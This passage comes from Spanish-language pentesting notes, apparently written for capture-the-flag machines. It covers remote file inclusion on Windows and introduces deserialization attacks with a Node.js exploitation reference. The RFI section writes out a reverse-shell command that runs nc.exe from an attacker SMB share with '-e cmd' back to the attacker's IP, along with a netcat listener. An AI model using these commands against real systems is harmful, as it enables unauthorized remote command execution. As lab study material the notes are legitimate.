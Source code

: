 Ahora en la url:  
`http://pagequesea/algo.php?parametro=\\miIp\smbFolder\prueba&cmd=<comando>`

Donde ese comando para que en Windows te de una reverse shell podría ser;  
Comando= \\MIIP\smbFolder\nc.exe -e cmd MIIP MIPUERTO  
El comando, como ves, se ejecuta indicando de nuevo la ruta.
Antes de lanzar la petición te copias el nc.exe en la raiz de tu recurso compartido y te pones en escucha; `rlwrap nc -nlvp 443`  
También se podría meter la instrucción del netcat en el mismo php, visto máquina **Sniper** y **Streamio**, si no ya sabes.. buscas por RFI y Windows en el buscador de máquinas hechas por s4vi y habrá.

---

## Deserialization Attack

### **¿Qué es?**

La serialización es el proceso de convertir estructuras de datos complejas, como objetos y sus campos, en un formato más plano que se pueda enviar y recibir como un flujo secuencial de bytes.

La deserialización es el proceso de restaurar este flujo de bytes a una réplica completamente funcional del objeto original, en el estado exacto en que se serializó. La lógica del sitio web puede entonces interactuar con este objeto deserializado, como lo haría con cualquier otro objeto.

El riesgo surge cuando es la entrada del usuario lo que se va a deserializar, porque aquí puedes intentar manipular objetos serializados y pasar datos dañinos al código de la aplicación. Incluso es posible reemplazar un objeto serializado con otro de cualquier clase diferente que este disponible en el sitio web, por esto a veces se le conoce este ataque como una vulnerabilidad de **inyección de objetos**.

### **¿Qué podemos conseguir?**

Podemos lograr Remote Command Execution y para dentro.

### **¿Cuándo pensar en hacer?**

Si vemos en la cookie una cadena larga de letras y números podríamos pensarlo. Con algo de intuición, dada en buena parte por la experiencia, irás mejorando en reconocerlo.

Si conseguimos ver funciones de des/serialización de la data por algún lugar, por ejemplo a través de un LFI, podemos ver código y pillar esa info.

## Explotación

Esta página lo explica bien y hay data serializada y deserializada que podemos usar para nodejs: 
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Recomendaría realizar la siguiente instalación;  
``` plaintext
> npm install node-serialize 
```
Te instala el node-serialize para poder serializar y deserializar en local lo que tu quieras, así haces pruebas antes en tu máquina.
